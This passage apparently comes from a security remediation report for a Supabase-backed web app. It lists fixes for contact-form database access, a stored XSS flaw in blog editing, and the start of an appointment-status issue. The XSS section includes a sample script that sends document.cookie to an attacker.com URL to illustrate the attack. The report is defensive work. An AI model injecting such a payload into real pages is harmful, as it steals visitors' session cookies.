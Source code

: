 **Edge Function Security (already in place):**
✅ Rate limiting: 3 requests per 15 minutes per IP  
✅ Honeypot bot detection  
✅ Comprehensive input sanitization  
✅ Security event logging  
✅ IP address tracking

**Files Modified:**
- `supabase/migrations/`: Updated RLS policies
- `src/components/contact/hooks/useContactForm.ts`: Removed direct database access

---

### 4. ✅ Blog Post XSS Vulnerability (HIGH)
**Issue:** Blog post editing in admin panel accepted unsanitized user input, creating stored XSS vulnerability. A malicious admin or compromised account could inject scripts that would execute for all users viewing blog posts.

**Attack Scenario:**
```html
<!-- Attacker edits blog post content -->
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie)
</script>
<!-- Would execute for every user viewing the blog post -->
```

**Fix Implemented:**

**Created BlogSanitizer Service:**
- Comprehensive XSS prevention
- Removes script tags, event handlers, dangerous protocols
- Removes iframes, objects, and embeds
- Strips dangerous style attributes (expression, behavior)
- Preserves safe HTML formatting for blog content

**Updated BlogManagement Component:**
- Added `BlogSanitizer` import
- Modified `handleSaveEdit` to sanitize all inputs
- Added length validation (database constraint enforcement)
- Sanitizes: title, excerpt, content, category

**Database Constraints Added:**
- Title: max 200 characters
- Excerpt: max 500 characters  
- Content: max 50,000 characters
- Prevents DoS via extremely large content

**Files Modified:**
- `src/services/blogSanitizer.ts`: New sanitization service
- `src/components/admin/BlogManagement.tsx`: Added sanitization to save handler

---

### 5. ✅ Appointment Status Manipulation (MEDIUM)
**Issue:** Users could update the `status` field of their own appointments, allowing manipulation of the appointment workflow (marking appointments as completed, cancelled, etc.).
